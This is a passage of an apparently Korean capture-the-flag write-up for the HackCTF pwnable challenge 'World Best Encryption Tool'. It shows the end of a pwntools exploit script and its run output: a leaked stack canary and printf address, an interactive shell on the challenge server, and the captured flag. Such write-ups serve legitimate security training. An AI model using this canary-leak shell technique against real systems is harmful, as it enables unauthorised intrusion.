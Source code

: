 p.recvline()
sleep(0.1)

p.sendline(payload2)
sleep(0.1)

p.recvuntil('(Yes/No)\n')
sleep(0.1)

p.sendline('No')
sleep(0.1)

p.interactive()

</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/28.World_Best_Encryption_Tool$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3027: Done
[*] canary is 0xc8f1c9a486d3e900
[*] printf_address is 0x7f1a23ce6800
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{I_th0ught_X0R_is_the_w0rld_b3st_Encrypti0n}

</pre>

**flag: HackCTF{I\_th0ught\_X0R\_is\_the\_w0rld\_b3st\_Encrypti0n}**
